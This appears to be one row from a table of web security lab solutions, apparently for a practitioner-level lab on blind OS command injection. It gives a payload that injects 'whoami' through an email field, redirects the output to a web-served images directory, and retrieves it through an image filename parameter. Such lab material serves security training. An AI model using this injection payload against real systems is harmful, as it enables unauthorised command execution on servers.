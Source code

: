 |82    |Blind OS command injection with output redirection                                                                       |email=&#124;&#124;whoami>/var/www/images/output.txt&#124;&#124;                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |To check, intercept a request that loads an image of a product and modify the filename parameter so that it matches the name of the output file  filename=output.txt                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |OS Command Injection, Practitioner          |